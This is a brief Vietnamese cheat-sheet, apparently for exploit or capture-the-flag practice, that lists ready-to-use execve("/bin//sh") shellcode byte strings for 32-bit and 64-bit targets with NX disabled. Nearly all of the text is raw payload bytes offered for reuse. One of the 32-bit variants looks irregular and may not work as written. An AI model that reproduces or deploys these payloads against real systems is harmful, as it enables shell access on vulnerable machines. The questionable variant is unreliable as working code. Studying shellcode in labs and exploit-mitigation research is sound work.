 

Các shellcode execve("/bin//sh") trong trường hợp NX disabled:
  32 bit: \x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x31\xDB\x31\xC9\x31\xD2\x89\xE3\x83\xC0\x0B\xCD\x80 
  
  shellcode = b"\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x31\xd2\x31\xc9\x31\xd2\x89\xe3\xb0\x0b\xcd\x80\x30\xc0\xfe\xc0\xcd\x80"

  64 bit: \x48\x31\xFF\x57\x48\xBF\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x57\x48\x31\xF6\x48\x31\xD2\x48\x89\xE7\x48\x31\xC0\x48\x83\xC0\x3B\x0F\x05 


